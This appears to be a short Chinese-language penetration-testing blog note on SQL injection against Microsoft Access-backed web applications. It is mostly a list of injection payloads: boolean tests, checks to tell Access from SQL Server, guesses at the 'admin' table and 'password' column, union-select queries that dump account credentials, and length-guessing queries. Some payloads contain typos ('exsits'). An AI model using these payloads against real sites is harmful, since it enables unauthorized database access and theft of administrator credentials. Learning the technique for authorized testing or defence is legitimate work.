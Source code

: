 ﻿---
title: Access数据库注入
date: 2018-10-26
tags: 渗透
categories: "渗透——Access数据库注入"
---


------

### 介绍
> 微软开发的小型数据库，全名：Microsoft Office Access

- 打开工具：
> 辐臣数据库浏览器，破障浏览器

------

<!-- more -->
### 判断注入

- ` ' `
- `and 1=1`
- `and 1=2`
- `or 1=2`
- `id=-xxx`

------

### 判断数据库类型

- `and exsits (select * from msysobjects)>0` （判断是否是access数据库，msysobjects是数据库中的一个表）
- `and exsits (select * from sysobjects)>0` （判断是否是SQLSever数据库）

------

### 判断数据库表

- `and exists (select * from admin)`

------

### 判断数据库表中的字段名

- `and exists (select admin.password from admin)`

------

### 判断字段长度

- ` order by 数字`
- 报错显示内容
> `and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin`
- 猜解密码
> 在报错输出内容中找到报错位置，将字段名与其替换，就会显示字段内容。如：`and 1=2 union select 1,2,admin,4,5,6,password,8,9 from admin`

------

### 判断账户密码长度

- `and (select len(admin) from admin)=5`如果返回正常，则账户长度是为5
- `and (select len(password) from admin)=5`如果返回正常，则密码长度是为5